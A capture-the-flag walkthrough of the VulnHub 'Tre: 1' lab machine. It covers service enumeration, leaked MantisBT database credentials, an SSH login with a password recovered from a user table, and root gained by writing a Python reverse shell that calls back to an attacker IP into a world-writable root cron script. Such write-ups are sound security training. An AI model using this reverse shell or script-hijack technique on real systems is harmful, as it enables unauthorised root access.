

# VulnHub > Tre 1

**About Release**

* Name: Tre: 1
* Date release: 13 May 2020
* Author: SunCSR Team
* Series: Tre
* Difficulty: Intermediate
* Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)

**Description**

Get the root shell and then obtain flag under `/root`.

**Download**

* Tre.zip (Size: 666MB)
* Download: https://drive.google.com/file/d/1Tq9dJrbL8-4RTJCwVPpMcsITka3FPmoh/view?usp=sharing
* Download (Mirror): https://download.vulnhub.com/tre/Tre.zip
* Download (Torrent): https://download.vulnhub.com/tre/Tre.zip.torrent ([Magnet](magnet:?xt=urn:btih:3BC2DBEC5963F14CC7CFE1C64C3F1241815571AF&dn=Tre.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

# Services Enumeration

There are 3 open ports according to Nmap, 1 for SSH and 2 ports for web services:

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Web Enumeration

## Interesting hidden locations

The web enumeration reveals several hidden locations, but only 2 are interesting here: `adminer.php` and `/mantisbt`.

~~~
kali@kali:/data/Tre_1/files$ gobuster dir -u http://tre.box -x php,txt,bak,old -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://tre.box
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,bak,old
[+] Timeout:        10s
===============================================================
2020/09/30 15:06:49 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.old (Status: 403)
/.htaccess (Status: 403)
/.htaccess.old (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.bak (Status: 403)
/adminer.php (Status: 200) <---------- interesting!
/cms (Status: 301)
/info.php (Status: 200)
/mantisbt (Status: 301) <------------- interesting!
/server-status (Status: 403)
/system (Status: 401)
===============================================================
2020/09/30 15:07:02 Finished
===============================================================
~~~

## MantisBT

MantisBT is a popular free web-based bug tracking system written in PHP, and often used with a MySQL database. Browsing http://tre.box/mantisbt/login_page.php will reveal that the database is corrupted because of the following error message:

~~~
Error: The database structure appears to be out of date (config(databaseversion) is 0) or corrupt. Please check that your database is running - we can not retrieve the database schema version. Config Table did not return a valid database schema version - please ask for support on the mantis-help mailing list if required.
~~~

Enumerating the locations within the `/mantis` folder reveals the presence of a `/mantis/config/` folder, which may be interesting:

~~~
kali@kali:/data/Tre_1/files$ gobuster dir -u http://tre.box/mantisbt/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://tre.box/mantisbt/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/29 18:18:38 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/admin (Status: 301)
/api (Status: 301)
/config (Status: 301) <--------------- interesting!
/core (Status: 301)
/css (Status: 301)
/doc (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 302)
/js (Status: 301)
/lang (Status: 301)
/library (Status: 301)
/plugins (Status: 301)
/scripts (Status: 301)
/vendor (Status: 301)
===============================================================
2020/09/29 18:18:38 Finished
===============================================================
~~~

Directory listing is enabled for this location, and we find several interesting files:

~~~
kali@kali:/data/Tre_1/files$ curl -s http://tre.box/mantisbt/config/ | html2text 
****** Index of /mantisbt/config ******
[[ICO]]       Name                  Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                         -  
[[   ]]       Web.config            2017-04-01 00:00  309  
[[TXT]]       a.txt                 2020-05-12 01:06 3.3K  
[[   ]]       config_inc.php        2020-05-12 01:10  338  
[[   ]]       config_inc.php.sample 2017-04-01 00:00 3.3K  
[[   ]]       data.sql              2020-05-12 01:12  30K  
===========================================================================
     Apache/2.4.38 (Debian) Server at tre.box Port 80
~~~

Below is an extract of `data.sql` which reveals the `administrator` password hash:

~~~
kali@kali:/data/Tre_1/files$ grep -A 10 "INSERT INTO mantis_user_table" data.sql 
INSERT INTO mantis_user_table(
		username, realname, email, password,
		date_created, last_visit, enabled, protected, access_level,
		login_count, lost_password_request_count, failed_login_count,
		cookie_string
	)
	VALUES (
		'administrator', '', 'root@localhost', '63a9f0ea7bb98050796b649e85481845',
		'2020-05-12 01:11:19', '2020-05-12 01:11:19', '1', '0', 90,
		3, 0, 0, '7ede40367f4c0d22fa257f67440a6db070ba2523653ecdd4ed4606cac99d82a8'
	);
~~~

Searching for the hash on the Internet reveals that it corresponds to the password `root`. However, we can't connect against Mantis using these credentials, probably because of the corrupted database.

The `a.txt` file seems more promising, as it discloses the connection details to the database:

~~~
kali@kali:/data/Tre_1/files$ grep -A 5 "Database Configuration" a.txt 
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
~~~

## adminer.php

`adminer.php` is a lighweight phpmyadmin-like interface. As we are provided with the database connection details, let's connect:

Now click on the "mantis_user_table" table and click on the "Select data" link to dump the table:

id | username | realname | email | password
---|---|---|---|---
1 | administrator | XiBejMub | root@localhost | 3492f8fe2cb409e387ddb0521c999c38
2 | tre | Tr3@123456A! | tre@localhost | 64c4685f8da5c2225de7890c1bad0d7f

None of the MD5 hash is found online. Let's try to authenticate against SSH with `tre:Tr3@123456A!` as tre's realname looks like a password:

~~~
sshpass -p "Tr3@123456A!" ssh tre@tre.box
~~~

It worked.

# Tre's privileges

Now connected as `tree`, let's check the privileges. The use is allowed to shutdown or reboot the machine (`shutdown -r`).

~~~
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
~~~

# Privilege escalation

## Cron job

Running `pspy64` will reveal that `/usr/bin/check-system` is running every second:

~~~
2020/09/30 06:05:30 CMD: UID=0    PID=3448   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:31 CMD: UID=0    PID=3450   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:32 CMD: UID=0    PID=3451   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:33 CMD: UID=0    PID=3452   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:34 CMD: UID=0    PID=3453   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:35 CMD: UID=0    PID=3454   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:36 CMD: UID=0    PID=3455   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:37 CMD: UID=0    PID=3456   | /bin/bash /usr/bin/check-system 
~~~

The script is writable to us:

~~~
tre@tre:~$ ls -l /usr/bin/check-system 
-rw----rw- 1 root root 135 May 12 04:08 /usr/bin/check-system
~~~

Let's modify the script to include a reverse shell in the middle of the loop:

~~~
$ cat > /usr/bin/check-system << EOF
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
	echo "Checking...";
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.222.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	sleep 1;
done
EOF
~~~

Now, let's start a listener locally (`rlwrap nc -nlvp 4444`) and restart the target machine:

~~~
$ sudo shutdown -r
~~~

We now have a reverse shell spawned to our listener window:

~~~
kali@kali:/data/Tre_1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.149] 33032
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Let's get the root flag:

~~~
# cd /root
# ls -la
total 24
drwx------  3 root root 4096 May 12 23:59 .
drwxr-xr-x 18 root root 4096 May 11 23:57 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 May 12 00:15 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   27 May 12 03:58 root.txt
# cat root.txt
{SunCSR_Tr3_Viet_Nam_2020}
~~~
